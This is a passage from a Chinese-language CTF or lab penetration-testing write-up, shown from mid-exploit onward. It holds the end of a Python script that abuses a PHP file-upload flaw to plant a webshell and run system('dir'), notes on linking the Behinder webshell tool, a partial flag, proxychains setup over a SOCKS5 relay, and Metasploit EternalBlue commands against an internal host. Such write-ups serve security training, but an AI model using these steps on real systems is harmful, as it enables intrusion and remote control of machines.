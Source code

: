 ```bash
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir")
print(r.text)
print(filepath)
```

上面的adminuser和adminpass都是base64编码过后的，然后我们再在同级目录下来个要上传的木马，命名为1.php，直接运行脚本，然后拿到返回的路径，直接连behinder。

```bash
PS C:\Users\scofi\Desktop> python solve.py
<br />
<b>Notice</b>:  Undefined offset: 1 in <b>C:\phpStudy\PHPTutorial\WWW\upload\2025-01\12_11282757.php</b> on line <b>23</b><br />

/upload/2025-01/12_11282757.php
```

upload\2025-01\12_11282757.php

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112113132-eukvnkm.png?imageSlim)​

文件管理

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112113448-klmy3qn.png?imageSlim)​

### flag02

2ce3-4813-87d4-

根据提示，接下来打DC

### DC域控渗透

配置kali vm的proxychains4

```bash
nano /etc/proxychains4.conf
```

我的vm用的是NAT网络模式，添加

```bash
socks5 vps_ip 6000
```

同时模式为`dynamic_chain`​

随后使用msf

```bash
proxychains msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
show options 
set rhosts 172.22.1.21
run
```
